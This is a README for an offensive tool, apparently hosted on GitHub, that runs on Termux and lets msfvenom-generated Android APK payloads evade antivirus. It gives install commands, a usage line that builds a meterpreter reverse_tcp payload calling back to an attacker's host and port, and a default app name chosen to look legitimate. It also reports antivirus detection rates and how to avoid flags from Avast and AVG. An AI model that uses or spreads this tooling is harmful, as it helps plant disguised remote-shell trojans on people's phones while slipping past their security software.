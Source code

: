 # apkwash for Termux
Android APK Antivirus evasion for msfvenom generated payloads.
<br>
<br>
<b> Tested on Termux without root. </b><br>
<br>
<b>Setup:</b><br>
apt update && apt upgrade<br>
git clone https://github.com/0x64656164/apkwash<br>
chmod +x apkwash<br>
mv apkwash $PREFIX/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's $PREFIX/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<br>
<br>
<b>Usage Example:</b><br>
apkwash -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -o LegitAndroidApp.apk<br>
<br>
<b>Output:</b><br>
\<LegitAndroidApp>.apk & \<LegitAndroidApp>.listener<br>
<br>
<b>Default values:</b><br>
	payload=android/meterpreter/reverse_tcp<br>
	LHOST=\<eth0 IP address><br>
	LPORT=4444<br>
	output=AndroidService.apk<br>
<br>
<b>Options</b><br>
  -p | --payload 	\<payload>	This sets the payload to be generated by msfvenom.<br>
  -o | --output 	\<outfile.apk>	This sets the name of the APK created as well as the output apk file.<br>
  -x | --original 	\<infile.apk>	Input APK to inject the payload into (later update).<br>
  -g | --generate			Generate a payload using defaults<br>
  -n | --newkey 			Generate a new debug key before signing<br>
  -v | --verbose 			Don't mask output of commands<br>
  -d | --debug				Leaves the /tmp/payload files in place for review<br>
  -h | --help 				Help information<br>
<br>
<br>
<b>Antivirus detection:</b><br>
2/35 on nodistribute - 2Aug17<br>
Will be updating soon to cover these two flags.<br>
<br>
FLAGGED BY AVAST!<br>
APK:CloudRep[Susp] is the report for the suspicious app on Avast. <br>
Per Avast: "the APK:CloudRep [Susp] is a warning-like message for applications that are very new/rare/previously unseen in our userbase." Based on this alone it doesn't appear we can modify anything to avoid being flagged. It allows the user to accept the risks, or uninstall the app.<br>
<br>
<b>Modifiations:</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<br>
<b>Files:</b><br>
/tmp/payload    (Main files to review: AndroidManifest.xml and the smali files)
<br>
<br>
<b>Debugging</b><br>
Run with '-d' and -'v' to display as much output along with not removing the /tmp/payload files.<br><br><br>
<b>If you are seeing other "Payload".smali files in /tmp/payload/smali/com/var1/var2/ then be sure you have an updated system (apt-get update && apt-get dist-upgrade. I have found an older msfvenom version output a different payload that will be flagged by AVG (1/35 on nodistribute). Just making sure you are completely updated should resolve this.</b>

